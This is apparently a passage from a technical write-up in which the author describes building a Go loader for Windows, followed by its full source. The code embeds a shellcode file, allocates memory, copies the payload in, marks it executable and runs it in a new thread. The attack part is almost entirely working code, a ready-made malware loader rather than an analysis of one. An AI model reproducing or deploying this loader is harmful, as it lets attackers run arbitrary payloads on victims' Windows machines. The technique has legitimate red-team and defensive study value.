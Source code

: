 Then, I created a loader in Go that was compiled to a Windows executable in order to execute the shellcode. I used Go's "embed" library to easily add the shellcode to the file. The code below uses different Windows API calls in order to allocate memory, copy the shellcode to the allocated memory, change the memory permissions, and lastly execute the shellcode.

```c {linenos=table}
package main

import (
    "embed"
    "log"
	"unsafe"
	"golang.org/x/sys/windows"
)

//go:embed payload.bin
var f embed.FS

func main() {
    // Get the embeded shellcode
    data, err := f.ReadFile("payload.bin")
    if err != nil {
        log.Fatal(err)
    }

	// Allocate memory using VirtualAlloc API call
	addr, err := windows.VirtualAlloc(uintptr(0), uintptr(len(data)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
        log.Fatal(err)
    }

	// Load ntdll to use RtlMoveMemory and
    // move the shellcode to the allocated memory
	ntdll := windows.NewLazySystemDLL("ntdll.dll")
	RtlMoveMemory := ntdll.NewProc("RtlMoveMemory")
	RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&data[0])), uintptr(len(data)))
	
    // Change the memory protections to read and execute
	var oldProtect uint32
	err = windows.VirtualProtect(addr, uintptr(len(data)), windows.PAGE_EXECUTE_READ, &oldProtect)
    if err != nil {
        log.Fatal(err)
    }
	
	// Load kernel32 to use CreateThread and execute the shellcode
	kernel32 := windows.NewLazySystemDLL("kernel32.dll")
	CreateThread := kernel32.NewProc("CreateThread")
	thread, _, _ := CreateThread.Call(0, 0, addr, uintptr(0), 0, 0)

	// Wait forever so the program doesn't exit
	windows.WaitForSingleObject(windows.Handle(thread), 0xFFFFFFFF)
}
```
